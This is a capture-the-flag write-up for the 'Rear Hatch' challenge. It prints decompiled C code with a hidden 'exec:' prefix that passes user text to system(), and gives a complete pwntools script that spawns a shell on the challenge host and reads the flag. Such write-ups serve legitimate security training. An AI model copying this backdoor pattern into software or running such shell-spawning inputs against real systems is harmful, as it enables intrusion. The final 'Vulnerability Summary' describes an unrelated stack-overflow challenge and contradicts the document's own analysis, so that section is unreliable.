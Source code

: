 # Rear Hatch - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/RearHatch.gif)

---

## Challenge Summary

You are presented with a command-line program that manages maintenance requests stored in a file. You can add, view, delete, or mark requests as completed.

The vulnerability lies in the `markRequestCompleted()` function. If a request's description starts with the string `exec:`, the program extracts the following string and passes it to `system()`, allowing command execution.

To exploit it, add a new request with the description:

```
exec:/bin/sh
```

Then choose **option 4** to mark that request as completed. This triggers `system("/bin/sh")`, giving the user a shell.

## Binary Information

```bash
$ file RearHatch
```

![Alt text](img/2.png)

```bash
$ pwn checksec RearHatch
```

![Alt text](img/3.png)

---

## Static Analysis (CLion - JetBrains)

Reviewing the source in CLion reveals a hidden command execution path in the `markRequestCompleted()` function:

```c
if (requests[i].id == id &&
    (strncmp((char *)requests + i*264 + 4, "\x65\x78\x65\x63\x3a", 5) == 0 ?
     system((char *)requests + i*264 + 9), 1 : 1))
```

### Key Observations:

- `requests` is an array of structs (`MaintenanceRequest`) each 264 bytes in size.
- The comparison checks if the **description** of a request starts with `"exec:"` using `strncmp`.
- If matched, it calls `system()` on the contents of the description starting just after `"exec:"`.

This introduces a **hidden command injection backdoor**: the program will execute arbitrary shell commands embedded in the description field of a request when marked as completed.

---

## Exploit Strategy

To exploit this backdoored logic, you must:

1. **Add a new maintenance request** with the description starting with `exec:` followed by a shell command :

   ```
   exec:/bin/sh
   ```

   This is done via **option 1** (Add Maintenance Request).

2. Then choose **option 4** (Mark Request as Completed), and input the ID of the crafted request.

3. When the condition in `markRequestCompleted()` is met, the program detects the `exec:` prefix and executes the remaining string using `system()` — in this case, spawning a shell.

No memory corruption or complex exploitation is needed — it's a hidden **command execution backdoor** triggered via valid program flow.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template RearHatch --host kubenode.mctf.io --port 30014
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'RearHatch')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'kubenode.mctf.io'
port = int(args.PORT or 30014)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.sendline(b'1')
io.sendline(b'exec:/bin/sh')
io.sendline(b'4')
io.recvuntil(b'Enter the ID of the request to mark as completed: ')
io.sendline(b'1')
io.sendline(b'cat flag.txt')
flag = io.recvregex(br'MetaCTF{.*?}')
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")




```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

The binary parses strings representing binary trees and stores them in a stack-allocated array. It calculates the required buffer size by counting the number of nodes and assuming the tree is fully balanced. However, this logic fails when the tree is **deep and sparse** (e.g., having only right children), where the **depth exceeds the allocated array size**.

As a result, during deserialization, the program writes **beyond the bounds of the stack buffer**, causing a **stack-based buffer overflow**. Because the stack layout places the return address near the end of the array, carefully crafted input can be used to **partially overwrite the return address**. Although stack canaries are present and **ASLR is enabled**, the attacker leverages:

- **A hidden `debug_shell()` function** (ret2win-style exploitation).
- **Partial return address overwrite** (only lower 2 bytes needed).
- **Brute-force guessing** (\~16 tries on average due to 4 bits of entropy).

This leads to reliable control of execution flow and ultimately a shell, allowing retrieval of the flag.

---

## Flag

```
MetaCTF{0h_chr1stm4s_tr33_h0w_l0v3ly_4r3_y0ur_br4nch3s}
```
